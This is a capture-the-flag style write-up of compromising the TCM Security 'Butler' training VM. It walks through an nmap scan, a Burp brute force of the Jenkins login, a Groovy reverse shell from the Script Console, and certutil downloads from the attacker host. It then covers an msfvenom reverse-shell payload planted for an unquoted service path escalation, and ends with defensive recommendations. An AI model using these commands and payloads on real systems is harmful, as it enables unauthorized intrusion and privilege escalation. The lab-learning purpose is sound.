

# Butler

<p align="left">
  
</p>

# Butler — Writeup (TCM Security vulnerable VM)

**Goal:** gain administrator (SYSTEM) privileges on the _Butler_ vulnerable VM from the Practical Ethical Hacking course (TCM Security).


## 1. Port scan - Nmap

Let’s begin with a Nmap scan:

```shell
sudo nmap -T4 -p- -A -vv 192.168.XX.XX
```

- -T4 : Timing template, 4 is for an aggressive scan. This is not a real-life scan so we can launch a “noisy” scan.
- -p- : To scan all the ports (1 to 65535)
- -A : Aggressive scan options = OS detection (-O) + version scanning (-sV) + script scanning (-sC) + traceroute
- -vv : Verbose mode


### Open ports

- 135 — msrpc
- 139 — smb
- 445 — smb
- 5040 — unknown
- 7680 — pando-pub ?
- 8080 — http — Jetty 9.4.41.v20210516
	- Info about robots.txt
- 49664–49669 — msrpc

Note: Jetty on port 8080 and `robots.txt` worth investigating.

## 2. Checking website on port 8080

Opened `http://<target>:8080`

Here, i’ve spent lot of time to find a way to bypass this login prompt and check several exploits but nothing interesting. I have tried some module with Metasploit…and…nothing.

I tried the Brute force login with Burp Suite method.

## 3. Brute-forcing the web login with BurpSuite

Used Burp Suite to brute force the login form:

Set proxy to `127.0.0.1:8080` and captured the login request.

Sent the request to **Intruder** and cleared default payloads.

In the Intruder i have selected the clear § button.

Marked the `username` and `password` fields (Add §).

I'm, gonna use the Cluser Bomb attack, because I have no idea what the username and password is.

In the Payload section, select Payload set 1 and add some basic usernames like admin, administrator, user, jenkins. I'm going do the same thing for the Payload set 2 (for the passwords) with Password, password, 123456, jenkins, Jenkins:

I found this little change on I can see that the length of the “jenkins / jenkins” line is smaller:

Let’s try these credentials and that’s it !
Successful credentials: **jenkins:jenkins**.

## 4. Jenkins access — Script Console CMD

After logging in, navigated to **Manage Jenkins → Script Console** which allows executing Groovy scripts with Jenkins privileges. This is a powerful vector for command execution on the host.

Found a public Groovy reverse shell script online. Modified it to connect back to the attacker and executed it.

I'm gonna set the attack ip adres in the script and setup listener for port 8044 and run this.

```shell
nc -nvlp 8044
```

And I'm in the machine!

I'm now a butler (user), so not system administrator.

## 5. Local enumeration — gathering system info
I have runned the command "systeminfo" to get little bit more information.

I'm gonna use Windows Privilege Escalation tool an that is WinPEAS, a compilation of local Windows privilege escalation scripts to check for cached credentials, user accounts, access controls, interesting files, registry permissions, service accounts, patch levels, and more.

## 6. Privilege escalation — Unquoted Service Path

I'm gonna use this:

https://github.com/peass-ng/PEASS-ng/releases/tag/20250401-a1b119bc

I'm gonna move this download file to my Transfer file.

```shell
mv ~/Downloads/winPEASx64.exe ~/Transfer/
cd ~/Transfer
ls
```

start a server an transfer this folder

```shell
python3 -m http.server 80
```

I'm going to use this tool (target machine):

```
certutil.exe -urlcache -f http://192.168.100.128/winpeas.exe winpeas.exe
```

I have executed winpeas.exe, there are a lot of results but the most important is the section below:

This will allow me to exploit a vulnerability called “Unquoted Service Path”.

I'm going to generate payload with msfvenom:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.100.128 LPORT=7777 -f exe -o Wise.exe
```

- -p it means payload.
- LHOST Setting up attack ip machine listener.
- LPORT Setting up the port we gonna listen.
- -f file type.
- -o output is our .exe file

I'm gonna set up back our server.

And I putted Wise in here

I'm going to use the same method wit certutil to transfer Wise.

```shell
certutil.exe -urlcache -f http://192.168.100.128/Wise.exe Wise.exe
```

I need now to stop the service that is running. I can use this command:

```shell
sc stop WiseBootAssistant
```

I'm going to start it and it's going to execute as the system

```shell
sc start WiseBootAssistant
```

On Kali, listen for the final SYSTEM shell:

```shell
nc -nvlp 7777
```

The shell come back and we are now in.

## 7. Recommendations

To prevent similar attacks:

1. **Jenkins security:**
    - Do not expose Jenkins UI publicly; restrict access to trusted IPs.
    - Enforce strong credentials and multi-factor authentication.
    - Keep Jenkins and plugins up to date.
    - Restrict who can run Groovy scripts — only trusted admins.

2. **Unquoted service paths:**
    - Audit service `ImagePath` entries and wrap paths containing spaces in quotes, e.g.:
---

**Live version:** [read this write-up on my blog](https://debasjan.github.io/writeups/tcm-butler/)
